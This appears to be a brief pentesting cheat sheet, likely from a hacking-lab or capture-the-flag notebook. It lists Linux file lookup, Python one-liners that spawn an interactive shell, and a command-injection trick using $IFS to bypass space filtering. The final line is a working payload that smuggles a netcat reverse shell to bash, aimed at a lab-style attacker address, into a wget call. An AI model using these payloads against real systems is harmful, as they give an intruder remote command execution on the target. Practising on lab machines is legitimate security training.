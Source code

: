 #linux
# Locations of files of an linux install
`apt-file list <packet>`

# Interactive Python pty
 #pty #shell
 
`python3 -c 'import pty; pty.spawn("/bin/sh")'`
`python -c 'import pty; pty.spawn("/bin/sh")'`

# Command injetion space
Use `$IFS`.
Together with Netcat:
`wget http://10.10.14.XXX:8000/$(nc.traditional$IFS-e/bin/bash$IFS'10.10.14.XXX'$IFS'6666')`